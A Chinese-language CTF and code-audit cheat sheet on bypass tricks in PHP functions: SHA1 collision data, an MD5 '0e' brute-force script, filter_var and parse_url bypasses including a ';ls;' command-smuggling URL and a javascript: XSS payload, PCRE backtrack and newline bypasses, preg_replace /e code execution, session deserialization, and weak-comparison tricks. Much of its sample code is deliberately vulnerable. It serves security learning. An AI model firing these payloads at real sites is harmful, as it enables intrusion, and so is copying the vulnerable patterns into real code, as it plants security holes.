param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2shal强碰撞例子
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
与
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1$md5 == md5($md5)，0e+数字 md5 爆破脚本：
#!/usr/bin/env python
import hashlib
import re
prefix = '0e'
def breakit():
iters = 0
while 1:
s = prefix + str(iters)
hashed_s = hashlib.md5(s).hexdigest()
iters = iters + 1
r = re.match('^0e[0-9]{30}', hashed_s)
if r:
print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
print "[+] in {} iterations".format(iters)
exit(0)
if iters % 1000000 == 0:
print "[+] current value: {} {} iterations, continue...".format(s, iters)
breakit()PHP 版本：
<?php
for($i=0;;$i++)
if("0e{$i}"==md5("0e{$i}"))
die ("[+] found! 0e{$i}");
elseif ($i % 1000000 === 0)
echo "[+] current value: {$i}\n";处理 INF：
var_dump(md5('INF'));
//9517fd0bf8faa655990a4dffe358e13e
var_dump(md5(9e999999));//9e999999即INF
//9517fd0bf8faa655990a4dffe358e13e即可满足 md5($this->trick1) === md5($this->trick2)
绕过原理：NAN和INF，分别为非数字和无穷大，但是var_dump一下它们的数据类型却是double，那么在md5函数处理它们的时候，是将其直接转换为字符串”NAN”和字符串”INF”使用的，但是它们拥有特殊的性质，它们与任何数据类型（除了true）做强类型或弱类型比较均为false，甚至NAN=NAN都是false，但md5(‘NAN’)=md5(‘NAN’)为true。（
<?php//INF同理
var_dump(md5('NAN') == md5('NAN'));
$a = NAN;
$b = NAN;
var_dump($a == $b);
//输出bool(true)
//bool(false)
?>处理 0.1*0.1：
0.1*0.1 实际上由于浮点数处理的原因，数值为 0.010000000000000002猜测 md5 函数处理时对小数的部分进行了舍弃，所以
var_dump(md5(0.01));
//04817efd11c15364a6ec239780038862
var_dump(md5(0.1*0.1));
//04817efd11c15364a6ec239780038862base64_encode、base64_decode
同 sha1() 和 strcmp()
filter_var、parse_url
filter_var — 使用特定的过滤器过滤一个变量：最常见的是FILTER_VALIDATE_URL过滤器，用来判断是否是一个合法的url
filter_var可能存在一些绕过：
http://localhost/index.php?url=http://demo.com@sec-redclub.com
http://localhost/index.php?url=http://demo.com&sec-redclub.com
http://localhost/index.php?url=http://demo.com?sec-redclub.com
http://localhost/index.php?url=http://demo.com/sec-redclub.com
http://localhost/index.php?url=http://demo.com,sec-redclub.com
http://localhost/index.php?url=http://demo.com:80;sec-redclub.com:80/
http://localhost/index.php?url=http://demo.com#sec-redclub.com //这里的#需要换成%23绕过parse_url函数，需要满足$site_info['host']的值以sec-redclub.com结尾，payload：
http://localhost/index.php?url=demo://%22;ls;%23;sec-redclub.com:80/我们使用 payload ：?url=javascript://comment``％250aalert(1) ，可以执行 alert 函数：
实际上，这里的 // 在JavaScript中表示单行注释，所以后面的内容均为注释，那为什么会执行 alert 函数呢？那是因为我们这里用了字符 %0a ，该字符为换行符，所以 alert 语句与注释符 // 就不在同一行，就能执行。当然，这里我们要对 % 百分号编码成 %25 ，因为程序将浏览器发来的payload：javascript://comment``％250aalert(1) 先解码成： javascript://comment%0aalert(1) 存储在变量 $url 中（上图第二行代码），然后用户点击a标签链接就会触发 alert 函数。
strcmp
int strcmp ( string $str1,string $str2)
数组跟字符串比较返回0
当输入的两个值不是字符串时就会产生非预期的返回值
<?php
$id=$_GET['id'];
if(strcmp($secret,$id)==0){
echo 'success!';
}绕过原理：利用strcmp函数将数组或者对象类型与字符串进行比较会返回-1，但是从5.3开始，会返回0
当传入?id[]=1时即可bypass
array_search
<?php
if(!is_array($_GET['test'])){exit();} // 判断是否为数组
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){ //遍历数组内容，所有内容均不能为admin，类型也必须相同
if($test[$i]==="admin"){
echo "error";
exit();
}
$test[$i]=intval($test[$i]); //转化为int型
}
if(array_search("admin",$test)===0){
echo "flag";
}
else{
echo "false";
}
?>绕过原理：array_search() 函数在数组中搜索某个键值，并返回对应的键名。in_array() 函数搜索数组中是否存在指定的值。基本功能是相同的，也就是说绕过姿势也相同。利用函数接入到了不符合的类型返回“0”这个特性，直接绕过检测。所以payload：?test[]=0。
trim
去除字符串首尾处的空白字符（或者其他字符），但不会过滤过滤\f
" " (ASCII 32 (0x20))，普通空格符。
“\t” (ASCII 9 (0x09))，制表符。
“\n” (ASCII 10 (0x0A))，换行符。
“\r” (ASCII 13 (0x0D))，回车符。
“\0” (ASCII 0 (0x00))，空字节符。
“\x0B”(ASCII 11 (0x0B))，垂直制表符。
· \f的意思是：换页。将当前位置移到下一页的开头。
<?php
$a = " \n\r\t\v\0abc \f";
var_dump(trim($a));
?>
preg_match
preg_match 函数用于进行正则表达式匹配，返回 pattern 的匹配次数，它的值将是 0 次（不匹配）或 1 次，因为 preg_match() 在第一次匹配后将会停止搜索。如果在进行正则表达式匹配的时候，没有限制字符串的开始和结束(^ 和 $)，则可以存在绕过的问题
首先preg_match只能处理字符串，传入数组的时候就会返回false，因此我们可以数据绕过，例子如下
<?php
$pattern = '/world/';
$string = array('hello', 'world');
$result = preg_match($pattern, $string);
var_dump($result); pre_match 在匹配的时候会消耗较大的资源，并且默认存在贪婪匹配，如果传入一个超长的字符串，会导致 pre_match 消耗大量资源从而导致 php 超时（一般为30s），后面的 php 语句就不会执行。
<?php
$code = "hybcx###AAAAAAAAAAAAAAAAAAAAAAAA(n个A)";
preg_match("/(\d+)\.(\d+)\.(\d+)\.(\d+)/", $code);
?>回溯绕过：pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match 就会返回 false，即匹配失败，从而绕过正则匹配。
https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html
<?php
function is_php($data){
return preg_match('/<\?.*[(`;?>].*/is', $data);
}
if(!is_php($input)) {
// fwrite($f, $input); ...
}可填入垃圾数据导致回溯次数超过了100万 preg_match 返回 FALSE 绕过判断
//bool(false)
var_dump(preg_match('/<\?.*[(`;?>].*/is', '<?php phpinfo();//'.str_repeat('c', 1000000)));修复方法，改用 === 判断返回值，不要只使用 if 判断
<?php
function is_php($data){
return preg_match('/<\?.*[(`;?>].*/is', $data);
}
if(is_php($input) === 0) {
// fwrite($f, $input); ...
}%0a 换行绕过：不会匹配换行符，并且在非多行模式下，当出现换行符 %0a 的时候，会被当做两行处理，而此时只可以匹配第一行，后面的行就会被忽略。（原因其实是正则书写不当）
<?php
$file_name = $_GET['path'];
if(!preg_match("/^[a-zA-Z0-9-s_]+.rpt$/m", $file_name)){
echo "regex failed";
}else{
echo "flag{success}";
}
?>
注意到正则表达式结尾的/m 了，在php中，/m表示开启多行匹配模式，开启多行匹配模式之后^和$的含义就发生了变化，没开启多行模式之前(即单行匹配模式), ^ 和$ 是匹配字符串的开始和结尾，开启多行模式之后，多行模式^,$可以匹配每行的开头和结尾，所以上述payload里面含有换行符，被当做两行处理，一行匹配OK即可，else分支
preg_replace
定义：preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。
$limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
$count: 可选，为替换执行的次数。常用PCRE修饰符：
- i (PCRE_CASELESS)：如果设置了这个修饰符，模式中的字母会进行大小写不敏感匹配
- m (PCRE_MULTILINE)： “行首”元字符 (^) 和”行末”元字符 ($) 会匹配目标字符串中任意换行符之前或之后
- s (PCRE_DOTALL)：点号元字符匹配所有字符，包含换行符。如果没有这个 修饰符，点号不匹配换行符。一个取反字符类比如
[^a]总是匹配换行符，而不依赖于这个修饰符的设置。
https://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php
1）/e 修饰符问题
在PHP5.5.0起废弃，php7.0.0 起不再支持
<?php
echo preg_replace('/test/e',$_GET['r'],'atest');?r=phpinfo()，获取 phpinfo https://xz.aliyun.com/t/2557
<?php
function complexStrtolower($regex, $value) {
return preg_replace(
'/(' . $regex . ')/ei',
'strtolower("\\1")',
$value
);
}
foreach ($_GET as $regex => $value) {
echo complexStrtolower($regex, $value) . "\n";
}?\S*={${phpinfo()}} ，正则表达式 \1 表示符合匹配的第一个子串，{${phpinfo()}} 使用了可变变量的知识。
2）经典写配置漏洞
https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
//index.php
<?php
$api = addslashes($_GET['api']);
echo $api;
$file = file_get_contents('./option.php');
$file = preg_replace("/define\('API', '.*'\);/s", "define('API', '{$api}');", $file);
file_put_contents('./option.php', $file);//option.php
<?php
define('API', 'aaa\\');ereg
功能同 preg_match() 类似，只不过仅在 php4，php5 中可使用，可使用 %00 截断正则匹配
tips：ereg()只能处理字符串，遇到数组做参数返回NULL
//?password=123%00&&**
//int 1
var_dump(ereg ("^[a-zA-Z0-9]+$", $_GET['password']));htmlentities
一般仅仅 htmlenetities($query) 这样用，不加第二个参数的情况下，很有可能存在漏洞
htmlentities不加第二个参数的话，不会转义单引号。
注：该函数并不能转换所有的特殊字符，是转换除了空格之外的特殊字符，并且单引号和双引号需要单独控制（通过第二个参数）。第二个参数主要取值有以下三个：
ENT_COMPAT（默认值） 会转换双引号，不转换单引号。
ENT_QUOTES 既转换双引号也转换单引号。
ENT_NOQUOTES 单/双引号都不转换
案例参考：PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)
（由于htmlentities运用错误，导致XSS、SQL注入）

$_REQUEST
漏洞一
array_map — 为数组的每个元素应用回调函数
array_map(callable $callback,array $array1[, array $... ]):array
array_map()：返回数组，是为 array1 每个元素应用 callback函数之后的数组。callback函数形参的数量和传给 array_map() 数组数量，两者必须一样。
<?php
$_GET = array_map('intval', $_GET);
$_POST = array_map('intval', $_POST);
$_COOKIE = array_map('intval', $_COOKIE);
echo "======== GET ========="."<br/>";
var_dump($_GET);
echo "======== POST ========="."<br/>";
var_dump($_POST);
echo "======== COOKIE ========="."<br/>";
var_dump($_COOKIE);
echo "======== REQUEST ========="."<br/>";
var_dump($_REQUEST);
?>可以发现 REQUEST 数据丝毫不受过滤函数的影响（意思就是GPC的数据经过过滤处理，request不会受到影响）
案例：PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)
漏洞二
php中 REQUEST 变量默认情况下包含了 GET ，POST 和 COOKIE 的数组。在 php.ini 配置文件中，有一个参数 variables_order ，这参数有以下可选项目

这些字母分别对应的是 E: Environment ，G:Get，P:Post，C:Cookie，S:Server。这些字母的出现顺序，表明了数据的加载顺序。而 php.ini 中这个参数默认的配置是 GPCS ，也就是说如果以 POST 、 GET 方式传入相同的变量，那么用 REQUEST 获取该变量的值将为 POST 该变量的值 所有如果存在类似：$_GET传入的参数，通过$_REQUEST进行过滤，就可能存在问题
<?php
$get = "GET: ".$_GET['var'];
$post = "POST: ".$_POST['var'];
$request = "REQUEST: ".$_REQUEST['var'];
echo $get."<br/>";
echo $post."<br/>";
echo $request;
?>案例：PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)
iconv
in_charset：输入的字符集。out_charset：输出的字符集。str：要转换的字符串。
iconv在字符串编码的时候，可能会导致字符串截断。当$str中有一个字符不能被目标字符集所表示，$str就从第一个无效字符开始截断并导致一个E_NOTICE
<?php
$a = '1'. chr(130).'2';
echo $a."<br/>";
echo iconv("UTF-8", "gbk", $a);
?>不过这里我认为有版本限制，因为：5.4.0 这个版本起，字符非法时候会返回 FALSE，除非在输出字符里指定了 //IGNORE 。 在之前版本，它会返回一部分字符串。
也就是说该版本以上，基于上述例子，会直接返回false，而不是字符串
Windows FindFirstFile
将文件不可知部分之后的字符用 ‘<’ 或者’>’代替，只使用一个’>‘只能代表一个字符，使用’>>’两个可以代替多个字符。可以用来进行未知文件名的文件包含，和目录爆破。
<?php
include ($_GET['file']);
?>
session反序列化
在php中session有三种序列化的方式，分别是php_serialize, php_binary和php
【在 PHP 中默认使用的是 PHP 引擎，如果要修改为其他的引擎，只需要添加代码ini_set('session.serialize_handler', '``需要设置的引擎``')``】
这里举个例子来了解一下在不同的处理器下，session所储存的格式有什么不一样(测试的时候php版本一定要大于5.5.4，不然session写不进文件))：
<?php
ini_set('session.serialize_handler', 'php');
//ini_set('session.serialize_handler', "php_serialize");
//ini_set('session.serialize_handler', "php_binary");
session_start();
$_SESSION['hybcx'] = $_GET['a'];
echo "<pre>";
var_dump($_SESSION);
echo "</pre>";
?>这里我输出不了，直接cv了
这有什么问题，其实PHP中的Session的实现是没有的问题，危害主要是由于程序员的Session使用不当而引起的。如：使用不同处理器来处理session文件。
php引擎的存储格式是键名 | serialized_string，而php_serialize引擎的存储格式是serialized_string。如果程序使用两个引擎来分别处理的话就会出现问题。
先以php_serialize的格式存储，从客户端接收参数并存入session变量
接下来使用php处理器读取session文件
首先访问1.php，在传入的参数最开始加一个’|‘，由于1.php是使用php_serialize处理器处理，因此只会把’|‘当做一个正常的字符。然后访问2.php，由于用的是php处理器，因此遇到’|‘时会将之看做键名与值的分割符，从而造成了歧义，导致其在解析session文件时直接对’|'后的值进行反序列化处理。
这里可能会有一个小疑问，为什么在解析session文件时直接对’|'后的值进行反序列化处理，这也是处理器的功能？这个其实是因为session_start()这个函数，可以看下官方说明：
首先生成一个payload：
攻击思路中说到了因为不同的引擎会对’|‘，产生歧义，所以在传参时在payload前加个’|'，作为a参数，访问1.php,查看一下本地session文件，发现payload已经存入到session文件
弱比较
=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
== 在进行比较的时候，会先将字符串类型转化成相同，再比较
（1）字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值则为0
var_dump("admin"==0); //true
var_dump("1admin"== 1); //true
var_dump("admin1"==0) //true（2）在进行弱类型比较时，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等
var_dump("0e123456"=="0e99999"); //true（3）当字符串当作数值来取值时，如果字符串中包含.、e、E或者数值超过整型范围内时，被当作float来取值，如果没有包含上述字符且在整形范围内，则该字符串会当作 int 来取值
$test=1 + "10.5"; // $test=11.5(float)
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+"bob-1.3e3";//$test=1(int)
$test=1+"2admin";//$test=3(int)
$test=1+"admin2";//$test=1(int)（4）ture 和任意字符串弱类型相等，和非 0 数字弱类型相等
var_dump("admin"== true); //true
var_dump("0admin"== true);//true
var_dump(7==true);//true
var_dump(1==true);//true
var_dump(0==true);//false
var_dump(-7==true);//true附上类型比较表：https://www.php.net/manual/zh/types.comparisons.php
<?php
var_dump("123.a1bc"==123);//true
var_dump("123ea1bc"==123);//true
var_dump("123Ea1bc"==123);//true
//上面都是true，有什么区别吗，其实这上面是没有什么区别，和前面说到的一样，将字符串开始部分从数字连续取到非数字截止
//那看看下面这几个代码
var_dump("123.2abc"==123);//false
var_dump("123.2abc"==1232);//false
var_dump("123e2abc"==123);//false
vardump("123E2abc"==123);//false
//开始部分存在数字，若连续的数字中包含.或e或E会干扰字符串和数字的比较，因为.就表示了浮点数，e和E表示了科学计数法，只要字符串中包含这些，上面所说的比较就不能理想地实现
var_dump('root' == 0);
//true//分析：先将字符串root转化成和0同等类型即数字型，因为字符串开始没有合法数值，则字符串root转换为0，最后0==0,所以成立。
var_dump(0 == 'root');
//true//分析：先将字符串root转化成和0同等类型即数字型，因为字符串开始没有合法数值，则字符串root转换为0，最后0==0,所以成立。
var_dump('22root' == 22);
//true//分析：先将字符串22root转化成和0同等类型即数字型，因为字符串开始有合法数值，则取其连续的合法数值22，最后22==22，所以成立。
var_dump('22r22oot' == 22);
//true//分析：先将字符串22r22oot转化成和0同等类型即数字型，因为字符串开始有合法数值，则取其连续的合法数值22，r后面的22因为与开始的合法数值不连续，所以不取它的值，22==22，所以成立。
var_dump('root22' == 22);
//false//分析：先将字符串root22转化成和0同等类型即数字型，因为字符串开始没有合法数值，则字符串root22转换为0，最后0==22,所以不成立。
var_dump('root22' == 0);
//true//分析：先将字符串root22转化成和0同等类型即数字型，因为字符串开始没有合法数值，则字符串root22转换为0，最后0==0,所以成立。
var_dump('0e170' == '0e180');
//true//分析：因为字符串中含有e开头的值，那么php代码会将其整体看成科学记数法，最后0的170次方==0的180次方，即0==0,所以成立
var_dump(0 === 'root');
//false//分析：=== 在进行比较的时候，会先判断两边类型是否相等,这里数值和字符串类型明显不等，因此不成立
var_dump ("0e830400451993494058024219903391" == 0);
//true//分析：先将字符串0e830400451993494058024219903391转化成和0同等类型即数字型，因为字符串开始有合法数值，则字符串0e830400451993494058024219903391转换为0，最后0==0,所以成立。
var_dump ("0e830400451993494058024219903391" == "0e830400451993494058024219904444");
//true//分析：先将字符串0e830400451993494058024219903391与0e830400451993494058024219904444分别转化成数字型，因为两个字符串开始都有合法数值，则字符串0e830400451993494058024219903391转换为0，字符串0e830400451993494058024219904444转换为0，最后0==0,所以成立。
var_dump (0e830400451993494058024219903391 == 0e830400451993494058024219904444);
//true//分析：这不是字符串的比较了，这是数字型的比较，因为==两边的都是科学记数法0e（0的次方），最终0=0
?>json_decode
<?php
show_source(__FILE__);
if (isset($_POST['message'])) {
$message = json_decode($_POST['message']);
$key ="*********";
if ($message->key == $key) {
echo "flag";
}
else {
echo "fail";
}
}
else{
echo "~~~~";
}
?>运用 bool 欺骗，json_decode 将 key 值解析为 bool 类型的 false，payload message={"key":0}，0与字符串进行弱比较，肯定是true
intval
intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。tips：在转换时，函数会从字符串起始处进行转换直到遇到一个非数字的字符，即使出现无法转换的字符串也不会报错而是返回0，从而可以导致如下情形的Bypass
注： intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1（注意这个通常配合preg_match来使用）
int intval ( mixed $var [, int $base = 10 ] )
参数说明：
$var：要转换成 integer 的数量值。
$base：转化所使用的进制。如果 base为空，通过检测 var 的格式来决定使用的进制：
如果字符串包括了 “0x” (或 “0X”) 的前缀，使用 16 进制 (hex)；
否则，如果字符串以 “0” 开始，使用 8 进制(octal)；
否则，将使用 10 进制 (decimal)。
<?php
$a = $_GET['a'];
if (intval($a) === 666) {
$sql = "Select a From Table Where Id=".$a;
echo $sql;
} else {
echo "No...";
}
?>srand/mt_srand
语法：srand(seed) 和 mt_srand(seed)
自 PHP 4.2.0 起，不再需要用 srand() 或 mt_srand() 给随机数发生器播种 ，因为现在是由系统自动完成的。但他却有个特性就是 当设置好种子后 再通过mt_rand()生成出来的随机数将会是固定的。
https://mp.weixin.qq.com/s/nVqkiMXyg2D_HtwLTkSgMA
(double)microtime() 只有6位有效数字，种子取值0,10,20,30,40,50,60,70,80,90,100~9999980,9999990 共100W，种子固定，生成的随机数固定即生成的随机字符串固定，导致可爆破
is_numeric
is_numeric()函数来判断变量是否为数字，是数字返回1，不是则返回0。比较范围不局限于十进制数字。
<?php
error_reporting(0);
$flag = "flag{test}";
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
}
?>绕过：?password=1337a或者?password=1337%00
16进制会被判断为数字
%00即空格会被判断为非数字16进制绕过：is_numeric() 会对「16进制」（0x开头）返回 true 。数值型和字符型都可以。
var_dump(is_numeric(0x7e)); //bool(true)
var_dump(is_numeric('0x7e')); //bool(true)绕过思路：把 '1 or 1' 这类payload转成16进制，再传给 is_numeric() ，实现绕过。
科学计数法绕过：is_numeric() 会对「科学计数法」（0e开头）返回 true 。数值型和字符型都可以。并且，0e开头的值，强制转换成int类型后，都是1。
var_dump(is_numeric(0e123)); //bool(true)
var_dump(is_numeric('0e123')); //bool(true)
echo (int)is_numeric(0e123).PHP_EOL; //1
echo (int)is_numeric(0e9999).PHP_EOL; //1
echo (int)is_numeric('0e123'); //1绕过思路：遇到 (int)is_numeric($_GET['a']) 这类情况时，可以使用传入 0exxx 格式的参数来绕过。
字符串：「数字」和「字母」组合的字符串，无论是否以数字开头，都返回 false。
var_dump(is_numeric('1a')); //bool(false)
var_dump(is_numeric('a1')); //bool(false)is_int()和is_numeric()的区别
is_int() 和 is_numeric() 都可以 “判断变量是否为数字”。
但 is_int() 必须是「整形」才返回 true ，其他类型都返回 false；
而 is_numeric() 对「浮点型」 和「数值型字符串」也返回 true 。
var_dump(is_numeric(1.1)); //bool(true)
var_dump(is_int(1.1)); //bool(false)
var_dump(is_numeric('1')); //bool(true)
var_dump(is_int('1')); //bool(false)type_digit()和is_numeric()的区别
type_digit() 和 is_numeric() 都可以 “判断变量是否为数字”。
但 type_digit() 只有在字符串中全是「数字」才会返回 true ，整型、浮点型、甚至包含正负符号的值都返回 false。
而 is_numeric() 对整型、浮点型、以及包含正负符号的值都返回 true 。
var_dump(is_numeric('1')); //bool(true)
var_dump(ctype_digit('1')); //bool(true)
var_dump(is_numeric(1)); //bool(true)
var_dump(ctype_digit(1)); //bool(false)
var_dump(is_numeric('1.1')); //bool(true)
var_dump(ctype_digit('1.1')); //bool(false)
var_dump(is_numeric('-1')); //bool(true)
var_dump(ctype_digit('-1')); //bool(false)
var_dump(is_numeric('+1')); //bool(true)
var_dump(ctype_digit('+1')); //bool(false)strpos
strpos() 函数查找字符串在另一字符串中第一次出现的位置（区分大小写）。(函数返回查找到这个find字符串的位置，那么如果是0位置，就值得注意了)
**注释：**strpos() 函数是区分大小写的。
strpos(string,find,start)
| 参数 | 描述 |
|---|---|
| string | 必需。规定被搜索的字符串。 |
| find | 必需。规定要查找的字符。 |
| start | 可选。规定开始搜索的位置 |
可以数组绕过
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>strpos()遇到数组，返回NULL，与FALSE类型不同，if条件成立
不过有的说还可以%0a换行绕过，但我暂时没找到例子（应用场景），只是有个demo
<?php
$flag = "flag{success}";
$i='666';
$ii=$_GET['h'];
if(strpos($ii,$i,"0")){
echo $flag;
}
?>文件包含
PHP中提供了四个文件包含的函数，分别是include()、include_once()、require()和require_once()。这四个函数都可以进行文件包含，但作用并不一样。
- include：找不到被包含的文件时只会产生警告，脚本将继续执行。
- include_once：和include()语句类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。
- require：找不到被包含的文件时会产生致命错误，并停止脚本。
- require_once：和require()语句类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。
0x08 参考文章
PHP函数漏洞总结 ——含有文件包含bypass，绕过require_once 单次包含限制
https://github.com/hongriSec/PHP-Audit-Labs ——红日代码审计靶场